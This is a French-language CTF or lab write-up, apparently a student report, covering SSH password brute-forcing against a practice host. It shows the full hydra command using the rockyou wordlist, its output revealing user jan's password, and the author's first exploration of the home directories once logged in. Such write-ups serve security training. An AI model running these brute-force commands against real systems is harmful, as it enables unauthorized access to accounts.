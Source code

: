 ## Brute-Force

Pour tenter d'acquérir l'accès au système, nous allons tenter de se connecter avec un des deux comptes. Je décide de me concentrer sur jan car kay a l'air d'être l'administrateur système et donc potentiellement mieux protégé. Pour deviner le mot de passe de jan j'utilise hydra qui va tester les mots de passe présent dans la wordlist rockyou en utilisant le service SSH (réponse au questionnaire)
### Hydra

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.42.222 >> Rapport.md 

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-12 10:30:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.42.222:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[STATUS] 113.00 tries/min, 339 tries in 00:03h, 14344063 to do in 2115:39h, 13 active
[STATUS] 95.14 tries/min, 666 tries in 00:07h, 14343736 to do in 2512:40h, 13 active
[22][ssh] host: 10.10.42.222   <font color="#00b050">login: jan   password: armando</font>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-12 10:38:58

Heureusement pour moi hydra a planté après avoir découvert le mot de passe de jan. Nous allons pouvoir accéder au système en utilisant le protocole SSH et tenter de trouver une solution pour obtenir plus de droit

![[Screenshot_2024-07-12_10-49-13.png]]
![[Screenshot_2024-07-12_10-49-46.png]]

J'affiche le dossier courant dans lequel je suis

![[Screenshot_2024-07-12_10-50-38.png]]

Je vois que je suis dans le dossier /home/jan, je décide de me déplacer dans le dossier home et d'afficher son contenu

![[Screenshot_2024-07-12_10-51-13.png]]

Je me rend ensuite dans le dossier de kay et de faire la même chose

![[Screenshot_2024-07-12_10-52-46.png]]

Le fichier pass.bak m'interpelle mais jan n'a pas les permissions pour y accéder (voir figure ci-dessous) je décide donc de m'intéresser au dossier .ssh

![[Screenshot_2024-07-12_10-53-14.png]]
![[Screenshot_2024-07-12_11-01-50.png]]
